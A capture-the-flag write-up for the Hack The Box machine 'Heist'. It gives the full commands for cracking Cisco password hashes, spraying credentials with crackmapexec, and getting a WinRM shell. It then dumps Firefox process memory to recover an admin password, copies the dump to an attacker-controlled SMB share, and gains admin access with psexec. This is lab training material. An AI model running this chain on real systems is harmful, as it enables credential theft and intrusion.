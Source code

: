 # Heist

![Heist](../Images/htb_heist_1.png)

**Tools: nmap, ciscot7, john, hashcat, crackmapexec, rpcclient, evil-winrm, Sysinternals (procdump), Impacket (lookupsid.py, smbserver.py, psexec.py).**

We begin with the nmap scan:  
`nmap -sC -sV -Pn 10.10.10.149`

![Heist](../Images/htb_heist_2.png)

We can see a few open ports, let's take a look at the webpage (http port 80):

![Heist](../Images/htb_heist_3.png)

There's a login page, but we don't have any credentials yet. We can try the 'Login as guest' option below the login form.

![Heist](../Images/htb_heist_4.png)

We're redirected to a 'Issues' page. We can take a look at the 'Attachment' in there, but also there are some possibly useful usernames in this page, so take note.

![Heist](../Images/htb_heist_5.png)

In the attachment we can see a bunch of Cisco ios configs. We can see that there are 3 hashes, and after doing some research, we can clearly see that these are Cisco type 5 (MD5) and type 7 (Vigenère cipher) password hashes.  
https://community.cisco.com/t5/networking-documents/understanding-the-differences-between-the-cisco-password-secret/ta-p/3163238  
https://www.infosecmatter.com/cisco-password-cracking-and-decrypting-guide/  
For the type 5 hash (the first on the list), we can use either hashcat or john, with the rockyou wordlist - you can either save it to a file like hash.txt or paste the hash between single quotes ' ':  
```
john --format=md5crypt --fork=4 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  
hashcat -m 500 '$1$pdQG$o8nrSzsGXeaduXrjlvKc91' /usr/share/wordlists/rockyou.txt
```

![Heist](../Images/htb_heist_6.png)

The type 7 (the other 2 hashes) can be cracked using an online tool or downloading the ciscot7 tool (both below):  
https://www.ifm.net.nz/cookbooks/passwordcracker.html  
https://github.com/theevilbit/ciscot7  

We end up with the following passwords:  
$uperP@ssword  
Q4)sJu\Y8qz\*A3?d  
stealth1agent  

Now we can try to validate the credentials with crackmapexec's smb module, because port 445 is open. First of all, save the 3 passwords in a file and in another file we can save some usernames like the ones we've seen before (hazard, admin, support, supportadmin...). We could alternatively use Metasploit's auxiliary/scanner/smb/smb_login module for this.  
`crackmapexec smb 10.10.10.149 -u users.txt -p passwords.txt --shares`

![Heist](../Images/htb_heist_7.png)

We are able to find a match, but we don't have valid share permissions. Next up, we can use crackmapexec once again with the winrm (Windows Remote Management) module.  
`crackmapexec winrm 10.10.10.149 -u hazard -p stealth1agent`

![Heist](../Images/htb_heist_8.png)

Once again, we don't have the necessary permissions. We could try using the rid-brute module to brute-force the users' SID/RID.  
https://www.itprotoday.com/security/q-what-are-exact-roles-windows-accounts-sid-and-more-specifically-its-rid-windows-security  
`crackmapexec smb 10.10.10.149 -u hazard -p stealth1agent --rid-brute`

![Heist](../Images/htb_heist_9.png)

As an alternative, we could run Impacket's lookupsid.py and rpcclient to gather the SIDs:  
```
lookupsid.py 'hazard:stealth1agent'@10.10.10.149  
rpcclient -U 'hazard%stealth1agent' 10.10.10.149  
lookupnames administrator
```

Now we can make a new 'users' list with the usernames 'Chase' and 'Jason', then run the smb module again.  
`crackmapexec smb 10.10.10.149 -u more_users.txt -p passwords.txt --shares`

![Heist](../Images/htb_heist_10.png)

We're able to find a match with the user 'Chase'. Still, this one also doesn't have access to the shares, but we can try with winrm:  
`crackmapexec winrm 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'`

![Heist](../Images/htb_heist_11.png)

Great, we have access to winrm. To exploit that, we can use evil-winrm.  
`git clone https://github.com/Hackplayers/evil-winrm.git`

Inside the evil-winrm folder there's the 'Gemfile', we can read it and then run a 'gem install' to download and install all the dependencies.

![Heist](../Images/htb_heist_12.png)

Now we can run evil-winrm:  
`ruby evil-winrm.rb -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'`

![Heist](../Images/htb_heist_13.png)

Good, we have a shell. If we navigate to Chase's desktop, we can find the 'user.txt' with the user flag, and a 'todo.txt' file.

![Heist](../Images/htb_heist_14.png)

The file shows a list of 'stuff to-do', and the first one mentions 'keep checking the issues list'. If we enumerate further the machine, we can find a 'Firefox' folder, so this could mean that the user has Firefox constantly open to check for new issues. We can call the 'Get-Process' to see the running processes:

![Heist](../Images/htb_heist_15.png)

So there it is, Firefox is open indeed. We can use Microsoft sysinternals' procdump to generate a memory dump file of the process. Simply download the tool in your machine and upload the .exe to the target:  
https://docs.microsoft.com/en-us/sysinternals/downloads/procdump  

![Heist](../Images/htb_heist_16.png)

Now run procdump (in one of Chase's folders, because outside those you won't have Write permission) and provide the PID of Firefox (run 'Get-Process' again if needed), I normally select the process with the most memory in use.

![Heist](../Images/htb_heist_17.png)

Now we can either run 'download firefox.exe_blabla.dmp' (might take a long time) or use Impacket's smbserver.py to create a new share in our machine. Choose a folder to host the share (in my case /root/Downloads), then run the command, with guest user and password:  
`smbserver.py -smb2support -username guest -password guest share /root/Downloads`

![Heist](../Images/htb_heist_18.png)

Now in another terminal window, back to evil-winrm, run the following, using your tun0 VPN IP:  
```
net use x:\10.10.your.IP\share /user:guest guest  
cmd /c "copy firefox.exe_blabla.dmp X:\"
```

![Heist](../Images/htb_heist_19.png)

Now in your machine, run a strings/grep/less command, then inside less use '/password' to highlight the words.

![Heist](../Images/htb_heist_20.png)

We can see a username 'admin@support.htb' and a password for that user (everything between the password= and the &login).

![Heist](../Images/htb_heist_21.png)

We can run crackmapexec again to check our permissions:  
`crackmapexec smb 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ' --shares`

![Heist](../Images/htb_heist_22.png)

Sure thing. Now we can simply use Impacket's psexec.py now and login using the credentials:  
`psexec.py administrator@10.10.10.149`

![Heist](../Images/htb_heist_23.png)

Then navigate to the Administrator's desktop and grab the root flag!
